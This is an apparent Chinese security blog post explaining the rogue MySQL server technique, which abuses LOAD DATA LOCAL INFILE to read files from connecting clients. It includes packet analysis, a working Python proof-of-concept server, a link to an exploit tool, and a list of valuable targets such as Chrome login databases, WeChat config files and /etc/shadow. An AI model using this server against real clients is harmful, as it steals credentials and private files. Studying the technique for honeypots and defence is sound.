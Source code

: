 ```yaml
---
layout: post
title: RougeMysql任意读取用户文件
---
```




> **“** Mysql任意读取客户端文件已经早在17年就已经有人提起过，放在今天来看，可以用做蜜罐来获取攻击者的个人信息文件，也可以用在AWD中，比如可以获取攻击者QQ号，聊天记录，微信id，NTMLHash等，此文只做为引子介绍Rouge-Mysql攻击过程 **”**

[TOC]

## 01 数据包分析

在开始之前，我们首先要了解一个命令

 `load data local infile '/etc/passwd' into table users fields terminated by '\n';`

上面这句命令的意思解释一下就是 导入一个本地文件 `etc/passwd` 至 `user`表中，导入数据以` \n`换行符分割

![img](https://s1.ax1x.com/2020/09/12/wagZo8.md.png)

PS：

**Mysql >8.0** 版本的是默认禁止了 **local_infile** 功能 ，所以需要手动开启

`set global local_infile = 1;`

![img](https://s1.ax1x.com/2020/09/12/wagkLt.md.png)

运行 `load data` 命令查看数据包

![img](https://s1.ax1x.com/2020/09/12/wagVdf.md.jpg)

![img](https://s1.ax1x.com/2020/09/12/wagEeP.md.png)

test文件内容

![img](https://s1.ax1x.com/2020/09/12/wagFsI.md.png)



上面就是完整的 `load data` 命令数据包

下面我们重点看一下 请求读取文件的这个数据包

![img](https://s1.ax1x.com/2020/09/12/wagmFS.md.jpg)



- 红框内容 `1c`：文件绝对路径长度+1 （16进制）
- 蓝框内容 `00 00 01`：数据包序号
- 绿框内容 `fb`：数据包类型

可以看到我们只需要获取到 **文件名+绝对路径的长度+1** 再加上要读的文件绝对路径基本就可以实现读取任意文件，简单构造一下数据包：

(文件绝对路径长度+1) `00 00 01 fb` (文件绝对路径)

```python
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename 
```



## 02伪造 **Mysql**客户端

想要伪造一个Mysql客户端，我们先启动一个正常的 Mysql 服务，正常的过一遍连接到认证成功的流程。

Mysql 先是发送一个 `Greeting Proto` 的欢迎包

![img](https://s1.ax1x.com/2020/09/12/wagKzj.md.png)

紧接着就是认证流程数据包，Mysql 收到客户端发来的账号密码 进行验证并返回相应的数据包

![img](https://s1.ax1x.com/2020/09/12/wagQQs.md.png)





Mysql 返回对应的认证包

![img](https://s1.ax1x.com/2020/09/12/waglyn.md.png)





至此就是 Mysql 的认证流程，知道了流程以后，我们就可以伪造 Mysql 客户端：

1. 监听 3306 端口，发送伪造的 Mysql 欢迎数据包
2. 有人连接则发送 Mysql 认证成功的数据包。
3. 伪造 Mysql 读取文件的数据包。
4. 根据数据包特征判断是否读取成功，成功则获取数据包内容。



## 03 Poc演示

Poc：

```python
import socket
import os
import sys

#usage poc.py 3306

port = int(sys.argv[1])
sv=socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("",port))
sv.listen(5)
print "Listen Begin in port "+ str(port)

filename = "/etc/passwd"conn, address = sv.accept()
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
conn.close()

if len(content) > 4:    
	print("[*] Read %s Successful!" % (filename))
```



本地运行 poc.py

![img](https://s1.ax1x.com/2020/09/12/wag1Lq.md.png)

端口也正在监听中

![img](https://s1.ax1x.com/2020/09/12/wag8e0.md.png)



尝试弱口令连接 Mysql

![img](https://s1.ax1x.com/2020/09/12/wagGwV.md.png)



读取文件成功，同时看一下数据包

![img](https://s1.ax1x.com/2020/09/12/wagNYF.md.png)

可见 **/etc/passwd** 已经读取成功，所有的数据包也都伪造成功

下面要做的就是根据流量特征利用正则提取文件内容即可。



获取工具

git clone https://github.com/ev0A/Mysqlist

dicc.txt 是要读的文件

![img](https://s1.ax1x.com/2020/09/12/waf4C8.md.png)

运行 exp_dicc.py端口 3306

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

尝试在Windows主机连接伪造的 Mysql服务，密码随便写

![img](https://s1.ax1x.com/2020/09/12/wafw4K.md.png)



成功读取到用户文件

![img](https://s1.ax1x.com/2020/09/12/wafNH1.md.png)

查看读取的文件

![img](https://s1.ax1x.com/2020/09/12/waftBR.md.png)



截止以上就是完整的伪造攻击流程。



## 04 思考🤔

既然可以任意读取文件，除了/etc/passwd 还有什么其他很有价值的文件呢？

**e.g:**

1. chrom login data 

   `'C:/Users/' + username + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'`

2. NTLM Hash（Bettercap + responder）

3. 微信ID

   `C:\Users\username\Documents\WeChat Files\All Users\config\config.data`

4. `/etc/shadow` 等



**一些问题**

1. 添加判断，若客户端没有进行认证则不需要发送认证成功的数据包



Reference：

[3] https://github.com/ev0A/ArbitraryFileReadList

[4] https://github.com/ev0A/Mysqlist

[5] https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg

<img src="https://s1.ax1x.com/2020/09/12/wafYu9.md.gif" alt="img" style="zoom:80%;" />

